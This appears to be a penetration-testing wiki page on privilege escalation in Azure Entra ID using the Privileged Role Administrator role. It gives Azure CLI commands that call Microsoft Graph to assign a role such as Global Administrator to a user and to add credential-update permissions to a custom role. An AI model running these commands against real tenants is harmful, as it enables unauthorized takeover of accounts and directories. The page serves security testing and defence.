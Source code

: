 # Az - EntraID Privesc

> [!NOTE]
> Note that **not all the granular permissions** built-in roles have in Entra ID **are elegible to be used in custom roles.**

## Roles

### Role: Privileged Role Administrator [](#c9d4cde0-7dcc-45d5-aa95-59d198ae84b2)

This role contains the necessary granular permissions to be able to assign roles to principals and to give more permissions to roles. Both actions could be abused to escalate privileges.

- Assign role to a user:

```bash
# List enabled built-in roles
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/directoryRoles"

# Give role (Global Administrator?) to a user
roleId="<roleId>"
userId="<userId>"
az rest --method POST \
  --uri "https://graph.microsoft.com/v1.0/directoryRoles/$roleId/members/\$ref" \
  --headers "Content-Type=application/json" \
  --body "{
    \"@odata.id\": \"https://graph.microsoft.com/v1.0/directoryObjects/$userId\"
  }"
```

- Add more permissions to a role:

```bash
# List only custom roles
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/roleManagement/directory/roleDefinitions" | jq '.value[] | select(.isBuiltIn == false)'

# Change the permissions of a custom role
az rest --method PATCH \
  --uri "https://graph.microsoft.com/v1.0/roleManagement/directory/roleDefinitions/<role-id>" \
  --headers "Content-Type=application/json" \
  --body '{
    "description": "Update basic properties of application registrations",
    "rolePermissions": [
      {
        "allowedResourceActions": [
          "microsoft.directory/applications/credentials/update"
        ]
      }
    ]
  }'
```
